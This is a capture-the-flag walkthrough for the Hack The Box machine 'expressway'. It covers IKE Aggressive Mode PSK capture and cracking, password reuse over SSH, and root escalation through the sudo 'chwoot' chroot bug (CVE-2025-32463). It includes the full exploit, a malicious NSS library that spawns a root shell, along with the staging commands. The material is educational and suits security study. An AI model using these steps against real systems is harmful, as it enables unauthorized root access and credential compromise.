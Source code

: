 # expressway (HTB) – full walkthrough

**Target:** `10.10.11.87`  
**Attacker:** `Kali`  
**Goal:** `user` + `root`

> ⚠️ For educational/CTF use.

---

## 0) Quick prep (optional but handy)

Add the host to your `/etc/hosts` so the domain that leaks later makes sense:

```bash
echo "10.10.11.87 expressway.htb" | sudo tee -a /etc/hosts
```

## 1) Recon – find the interesting service

We already know this is about IKE (UDP/500):

```bash
nmap -sU -p 500 -A 10.10.11.87
```

Result: UDP/500 open, IKEv1, Aggressive Mode traits and XAUTH + Dead Peer Detection. That’s the classic “grab the Aggressive Mode handshake and crack the PSK” situation.

## 2) Capture an IKE Aggressive Mode handshake

```bash
ike-scan -P -M -A -n fakeID 10.10.11.87
```

-A Aggressive mode

-n fakeID supplies a dummy ID to trigger a response

-M multiline dump

-P prints crackable fields (you’ll copy them next)
## What to save: the long colon-separated line after “IKE PSK parameters”. Put it in a file:
```bash
# paste the long "g_xr:...:hash_r" line into psk.txt
nano psk.txt
```

## 3) 3) Crack the PSK

Dictionary crack against RockYou:

```bash
psk-crack --dictionary /usr/share/wordlists/rockyou.txt psk.txt
```
You hit: fre****************

Verify the PSK works:

```bash
ike-scan -A -n ike@expressway.htb --psk=fre**************** 10.10.11.87
```
You should see another Aggressive Mode handshake returned.

## 4) Extra enum – TFTP config (optional but confirms clues)

A TFTP service exposes a router config that reinforces the ike user/realm:

```bash
nmap -sU -p 69 --script tftp-enum 10.10.11.87
# shows ciscortr.cfg
tftp 10.10.11.87 -c get ciscortr.cfg
cat ciscortr.cfg
```

You saw ciscortr.cfg via NSE. Contents typically hint at the same domain/user and VPN bits.

## 5) Foothold – SSH reuse of the PSK

Try the leaked identity as a system user with the same password (common HTB trick on this box):

```bash
ssh ike@10.10.11.87
# password:
#   fre****************
cat ~/user.txt
***********************************
```

## 6) Privilege escalation – vulnerable SUID sudo (“chwoot”)

On the host:

```bash
ls -l /usr/local/bin/sudo
/usr/local/bin/sudo -V | head -n1
```


box:

SUID root: /usr/local/bin/sudo

Version: Sudo version 1.9.17

Sudo 1.9.14–1.9.17 has a critical local privesc dubbed “chwoot” (CVE-2025-32463). The bug is in the --chroot (-R) path: when you run sudo with a user-controlled root dir, it consults NSS config from that directory and can be steered to load a malicious NSS library as root, yielding an instant root shell. Fixed in 1.9.17p1.

There’s also a related host-check bug, CVE-2025-32462, where sudo -h <host> can bypass host-tied sudoers rules; it was also fixed in 1.9.17p1. We don’t need it here.

Exploit steps

```bash
STAGE=$(mktemp -d /tmp/sudowoot.XXXXXX); cd "$STAGE"

// woot1337.c
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void woot(void){
    setreuid(0,0); setregid(0,0);
    chdir("/"); execl("/bin/bash","bash","-p",NULL);
}

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc   # prevents NSS from crashing
```

Build the shared object:

```bash
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

/usr/local/bin/sudo -R woot woot

cat /root/root.txt
***********************************
```

Why it works: vulnerable sudo (≤ 1.9.17) honors an attacker-controlled chroot and evaluates NSS from the fake root, loading /libnss_/woot1337.so.2 and executing its constructor as root. Patched in 1.9.17p1. Detections in the wild key off suspicious sudo -R usage with attacker-seeded nsswitch.conf.